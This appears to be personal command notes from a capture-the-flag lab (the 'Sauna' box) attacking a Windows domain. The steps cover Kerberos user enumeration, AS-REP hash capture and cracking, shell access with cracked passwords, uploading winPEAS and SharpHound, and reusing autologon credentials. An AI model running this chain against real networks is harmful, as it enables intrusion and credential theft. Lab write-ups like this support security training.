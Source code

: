 ```shell
#kerbrute tool

./kerbrute_linux_amd64 userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL ~/usernames.txt
#only 'fsmith' is valid username

echo 'fsmith' > validusernames.txt

GetNPUsers.py -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/ -usersfile validusernames.txt -request
#gives hash

hashcat -a 0 -m 18200 hash.txt /usr/share/wordlists/rockyou.txt 
#cracks the hash

evil-winrm -u fsmith -p Thestrokes23 -i 10.10.10.175
#we get shell as fsmith

#get user flag from fsmith desktop

upload /home/sv/Tools/winPEASx64.exe

.\winPEASx64.exe
#run winpeas

upload /home/sv/Tools/SharpHound.exe
#upload SharpHound.exe to victim machine

#run SharpHound
.\SharpHound.exe -c all

#on attacker machine
#start neo4j and bloodhound
sudo neo4j console

#in new tab
cd /opt/BloodHound/BloodHound-linux-x64

./BloodHound --no-sandbox
#starts bloodhound, use creds neo4j:bloodhound

#in evil-winrm session
download C:\Users\FSmith\20221226160621_BloodHound.zip /home/sv/sauna.zip
#open the zip file in bloodhound

#go through winpeas output and bloodhound result
#winpeas output gives autologon creds for svc_loanmanager

#in attacker
#logging in as svc_loanmanager
evil-winrm -u svc_loanmanager -p "Moneymakestheworldgoround\!" -i 10.10.10.175
#this does not work

#in evil-winrm session as fsmith
#check users
net user
#this shows svc_loanmgr

evil-winrm -u svc_loanmgr -p "Moneymakestheworldgoround\!" -i 10.10.10.175
#now we can login

#we can go through bloodhound result
#mark fsmith and svc_loanmgr as owned
#and find paths for privesc

```